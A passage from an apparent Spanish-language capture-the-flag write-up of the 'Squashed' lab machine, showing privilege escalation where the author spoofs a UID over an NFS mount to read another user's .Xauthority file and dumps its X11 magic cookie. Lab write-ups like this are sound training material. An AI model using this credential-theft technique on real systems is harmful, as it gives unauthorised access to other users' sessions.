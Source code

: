 ### Privesc

Ahora haremos el tratamiento de la tty para tener una shell totalmente interactiva. Una vez hecho esto vamos a ver como podemos escalar privilegios. Después de un rato sin encontrar nada decidí mirar los usuarios loggeados.

```bash
alex@squashed:/home/alex$ w
 12:42:12 up 18:57,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Thu17   18:57m  1:34   0.05s /usr/libexec/gnome-session-binary --systemd --session=gnome
alex@squashed:/home/alex$ 
```

El usuario ross estaba loggeado y yo tenía acceso a su directorio personal a través de una montura.

```bash
❯ ls -la
drwxr-xr-x 1001 bly  4.0 KB Thu Mar  2 18:45:06 2023  .
drwxr-xr-x root root  50 B  Fri Mar  3 13:26:04 2023  ..
drwx------ 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  .cache
drwx------ 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  .config
drwx------ 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  .gnupg
drwx------ 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  .local
drwxr-xr-x 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  Desktop
drwxr-xr-x 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  Documents
drwxr-xr-x 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  Downloads
drwxr-xr-x 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  Music
drwxr-xr-x 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  Pictures
drwxr-xr-x 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  Public
drwxr-xr-x 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  Templates
drwxr-xr-x 1001 bly  4.0 KB Fri Oct 21 16:57:01 2022  Videos
lrwxrwxrwx root root   9 B  Thu Oct 20 15:24:01 2022  .bash_history ⇒ /dev/null
lrwxrwxrwx root root   9 B  Fri Oct 21 15:07:10 2022  .viminfo ⇒ /dev/null
.rw------- 1001 bly   57 B  Thu Mar  2 18:45:06 2023  .Xauthority
.rw------- 1001 bly  2.4 KB Thu Mar  2 18:45:06 2023  .xsession-errors
.rw------- 1001 bly  2.4 KB Tue Dec 27 16:33:41 2022  .xsession-errors.old
```

Había un archivo .Xauthority que no podía leer, hice lo mismo que antes, cambiarle el UID al usuario test por el 1001.

```bash
❯ usermod -u 2017 test
```

El contenido es una Magic-Cookie-1:

```bash
xxd .Xauthority 
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 10c9 697c d10c e5ad  OOKIE-1...i|....
00000030: f319 9325 0097 7407 5d
```
